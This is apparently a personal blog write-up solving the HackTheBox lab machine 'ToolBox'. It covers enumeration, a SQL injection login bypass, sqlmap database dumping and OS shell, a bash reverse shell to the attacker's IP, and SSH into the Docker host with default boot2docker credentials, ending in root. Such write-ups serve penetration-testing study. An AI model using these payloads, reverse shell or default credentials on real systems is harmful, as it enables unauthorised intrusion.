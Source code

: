 ```yaml
---
title: "HackTheBox - ToolBox"
author: Nasrallah
description: ""
date: 2023-04-17 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, docker, sqli]
img_path: /assets/img/hackthebox/machines/toolbox
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Toolbox](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.236                                                                                                                             
Host is up (0.30s latency).                                                                                                                                   
Not shown: 994 closed tcp ports (reset)                                                                                                                       
PORT    STATE SERVICE       VERSION                                                                                                                           
21/tcp  open  ftp           FileZilla ftpd                                                                                                                    
| ftp-syst:                                                                                                                                                   
|_  SYST: UNIX emulated by FileZilla                                                                                                                          
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp  open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b1aa18199eaf79602192e6e97045a3f (RSA)
|   256 a24b5ac70ff399a13aca7d542876b2dd (ECDSA)
|_  256 ea08966023e2f44f8d05b31841352339 (ED25519)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56 
|_Not valid after:  2021-02-17T17:45:56 
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2023-04-09T10:46:21
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

We have FTP with anonymous login allowed, ssh on port 22, SMB on port (135,139,445) and Apache https web server and it says it's `Debian`, this means it's running on a docker container.

### FTP

Let's login and see what's there.

```terminal
 $ ftp 10.10.10.236                                                                                                                                 130 ⨯ 
Connected to 10.10.10.236.                                                                                                                                    
220-FileZilla Server 0.9.60 beta                                                                                                                              
220-written by Tim Kosse (tim.kosse@filezilla-project.org)                                                                                                    
220 Please visit https://filezilla-project.org/                                                                                                               
Name (10.10.10.236:sirius): anonymous                                                                                                                         
331 Password required for anonymous                                                                                                                           
Password:                                                                                                                                                     
230 Logged on                                                                                                                                                 
Remote system type is UNIX.                                                                                                                                   
ftp> ls                                                                                                                                                       
200 Port command successful                                                                                                                                   
150 Opening data channel for directory listing of "/"                                                                                                         
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe                                                                                           
226 Successfully transferred "/"                                                                                                                              
ftp> exit                                                                                                                                                     
221 Goodbye                            
```

We found one file which is `docker-toolbox.exe`.

Docker-Toolbox allows to deploy containers in windows before windows has support for Docker.

Let's move on.

### SMB

Let's list available shares.

```terminal
$ smbclient -L 10.10.10.236 -N                                                                                                                           
session setup failed: NT_STATUS_ACCESS_DENIED           
```

Couldn't do that, we get access denied.

### Web

Before going to the web page, nmap scripts had showed us the domain `admin.megalogistic.com`, so let's add that to /etc/hosts along with `megalogistic.com`.

![](1.png)

Nothing interesting is this page, and everything is static pages.

Let's go the admin subdomain.

![](2.png)

We got a login page, i tried some default credentials and failed, but managed to login via sql injection with the payload `' or 1=1 --`.

![](3.png)

Since the page is vulnerable to sqli, let's throw is to `sqlmap` and see what we can get back.

```bash
sqlmap -u 'https://admin.megalogistic.com/' --forms --batch --dump
```

![](4.png)

Managed to retrieve the admin hash, but couldn't crack it.

## **Foothold**

Let's use `--os-shell` option is `sqlmap` to get a shell and execute commands on the target.

![](5.png)

With that i put this reverse shell `sh -i >& /dev/tcp/10.10.17.90/9001 0>&1` in a file and executed the file to get a reverse shell.

![](6.png)


## **Privilege Escalation**

Running `ifconfig` shows our ip `172.17.0.2`

```terminal
www-data@bc56e3cc55e9:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 844587  bytes 100413105 (95.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 553291  bytes 572398666 (545.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Running `uname -a` we get the following result

```terminal
Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux
```

The first thing we notice is the hostname which indicate we're in a docker container and the linux distribution is called `boot2docker`

Searching for `boot2docker exploit` i found this [article](https://rioasmara.com/2021/08/08/privilege-escalation-boot2docker/) that shows default credentials for the host of this container.

Let's use the credentials `docker:tcuser` to ssh to the host at `172.17.0.1`

```terminal
postgres@bc56e3cc55e9:/$ ssh docker@172.17.0.1                                                                                                                
docker@172.17.0.1's password:                                                                                                                                                                                                                                                            
   ( '>')                                                                                                                                                     
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.                                                                                                 
 (/-_--_-\)           www.tinycorelinux.net                                                                                                                   
                                                                                                                                                              
docker@box:~$ whoami                                                                                                                                          
docker                                                                                                                                                        
docker@box:~$ id                                                                
uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)

```

If we check our privileges we see that we can run anything as root.

```terminal
docker@box:~$ sudo -l                                                           
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
```

Let's get a root shell with `sudo su`.

The root directory is empty so i searched for the root flag and found it's place.

```terminal
root@box:~# find / -type f -name root.txt 2>/dev/null                           
/c/Users/Administrator/Desktop/root.txt 
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).